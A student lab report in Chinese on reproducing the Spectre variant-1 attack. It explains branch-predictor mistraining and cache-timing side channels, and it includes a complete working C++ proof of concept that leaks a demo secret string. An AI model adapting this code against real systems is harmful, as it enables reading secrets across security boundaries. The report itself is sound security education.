


## 实验：Spectre 攻击验证

张一可 计15 2021010793

### 实验目的

CPU 的分支预测技术存在安全漏洞，在预测失败的情况下，CPU 不会恢复缓存状态。Spectre 漏洞正是利用 CPU 在分支预测失败后不会清空 Cache 的特性， 通过 Cache 测信道读取敏感信息。

实验通过实现 Spectre 攻击样例，理解 CPU 工作原理及其中存在的安全问题，加深对处理器安全的认识。

### 实验环境

1. 装有 Ubuntu 操作系统的主机
2. 主机状态 Intel 处理器

### 实验原理

实验的核心原理在于利用如下的 victim_function 函数。在调用 victim_function 前，先通过 cflush 将 spy_size 从缓存中清除，从内存中读取 spy_size 的同时，由于我们通过训练使 CPU 认为分支预测成功，CPU 会根据分支预测的结果提前读取 spy[x] 和 cache_set[spy[x] * 512] 的数据放入缓存。分支预测失败后，缓存中的结果不会被清除，因此读取速度更快，可以通过比较 cache_set 各位置元素的读取速度，得到 spy[x] 即敏感字符串的值。

```c++
void victim_function(size_t x) {
	if (x < spy_size) {
		temp &= cache_set[spy[x] * 512];
	}
}
```

对于敏感字符串中的每个字符，首先计算其相对于 spy 数组的位置 malicious_x：

```c++
size_t malicious_x = (size_t)(secret - (char *)spy);
```

随后重复 1000 次测试，在每轮测试中，首先通过 cflush 将 cache_set 从缓存中驱逐，再通过训练 CPU 分支预测器读取敏感数据到 cache 中。训练 CPU 分支预测的代码片段如下，重复 5 轮，每轮前 5 次调用 victim_function 访问某个 x < spy_size 的合法位置，使分支预测成功，最后一次访问 spy[malicious_x]，读取敏感数据。需要注意每次调用 victim_function 前需要将 spy_size 从缓存中清除，确保程序有足够的时间读取敏感数据到内存。调用那个 cflush 后，需要加入一定的延迟时间完成缓存的同步。

```c++
for (j = 29; j >= 0; j--) {
    _mm_clflush(&array1_size);
    for (volatile int z = 0; z < 100; z++) {} 
    
    x = ((j % 6) - 1) & ~0xFFFF;
    x = (x | (x >> 16));
    x = training_x ^ (x & (malicious_x ^ training_x));

    victim_function(x);
}
```

训练分支预测时，5 次 training_x，1 次 malicious_x 的规律同样容易被 CPU 分支预测部件优化，因此这里采用位操作将 x 在 j%6=0 时设为 malicious_x，在其他情况下设为 training_x，同时保证了实现的简洁性。

读取 cache_set[spy[x]] 数据到缓存后，通过比较 cache_set 各个位置的读取时间，利用缓存测信道信息得到对应的 spy[x] 的值。在如下的代码实现中，依次读取 cache_set[i * 512] 的值，并通过两次 rdtsc 时间戳的差值得到读取时间。若读取时间小于某个阈值，则认为此次读取是从缓存中得到的，将 results[i] 的值累加1。需要注意为了防止 CPU 在等间隔内存访问时，通过某些优化机制判断下次读取位置并预取到缓存中，应避免按顺序依次读取 cache_set，而对读取顺序进行置换。

```c++
for (i = 0; i < 256; i++) {
    mix_i = ((i * 167) + 13) & 255;
    addr = &cache_set[mix_i * 512];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x])
        results[mix_i]++;
}
```

执行上述测试 1000 次后，results 数组中最大元素对应的下标即为对应 spy[malicious_x] 的值，依次判断并输出，便可得到敏感字符串的全部信息。

### 算法实现

完整的代码实现如下：

```c++
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (100)

unsigned int spy_size = 16;
uint8_t cache_set[256 * 512];
uint8_t spy[16] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
const char* secret = "The Secret data. abcdefg";
uint8_t temp = 0;
int results[256];

void victim_function(size_t x) {
	if (x < spy_size) {
		temp &= cache_set[spy[x] * 512];
	}
}

uint8_t read_char(size_t malicious_x) {
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
	size_t training_x, x;
	uint64_t time1, time2;
	volatile uint8_t* addr;

	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--) {
		for (i = 0; i < 256; i++)
			_mm_clflush(&cache_set[i * 512]); 
		
		training_x = tries % spy_size;
		for (j = 29; j >= 0; j--) {
			_mm_clflush(&spy_size);
			for (volatile int z = 0; z < 100; z++) {} 
			x = ((j % 6) - 1) & ~0xFFFF; 
			x = (x | (x >> 16));
			x = training_x ^ (x & (malicious_x ^ training_x));
			victim_function(x);
		}

		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255;
			addr = &cache_set[mix_i * 512];
			time1 = __rdtscp(&junk);
			junk = *addr;
			time2 = __rdtscp(&junk) - time1;
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x])
				results[mix_i]++;
		}
	}
    int max_time = 0, rst;
    for (i = 0; i < 256; i++) {
        if (results[i] > max_time) {
            rst = i;
            max_time = results[i];
        }
    }
    return rst;
}

int main() {
	size_t malicious_x = (size_t)(secret - (char *)spy);
	int len = strlen(secret);

	for (size_t i = 0; i < sizeof(cache_set); i++)
		cache_set[i] = 1; 

	while (--len >= 0) {
		uint8_t rst = read_char(malicious_x++);
        printf("%c", static_cast<char>(rst));
	}
    printf("\n");
	return 0;
}
```

### 实验结果

实现的 Spectre 攻击程序可以成功读取字符串 secret 中的敏感数据：





### 参考资料

https://github.com/Eugnis/spectre-attack.git